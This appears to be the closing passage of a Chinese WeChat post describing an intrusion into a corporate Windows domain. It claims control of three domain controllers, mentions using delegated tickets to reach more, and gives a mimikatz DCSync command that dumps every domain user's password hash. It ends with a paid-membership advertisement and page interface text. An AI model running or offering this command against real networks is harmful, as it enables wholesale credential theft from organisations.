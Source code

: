 至此成功上线三台域控

![](https://gitee.com/fuli009/images/raw/master/public/20220228133734.png)![]()![](https://gitee.com/fuli009/images/raw/master/public/20220228133735.png)

后续继续用委派的票据获取其他几台域控的权限

![](https://gitee.com/fuli009/images/raw/master/public/20220228133736.png)![](https://gitee.com/fuli009/images/raw/master/public/20220228133737.png)

通过主域控直接dcsync dump，抓域内所有用户hash

    
    
    mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:abc.com /all /csv  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220228133738.png)![](https://gitee.com/fuli009/images/raw/master/public/20220228133739.png)

 **  
**

**从现在开始，星球定价150元！日后只有慢慢涨没有跌价！现在入股不亏，持续输出原创文章，还是小有干货的！**![](https://gitee.com/fuli009/images/raw/master/public/20220228133740.png)

  

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送
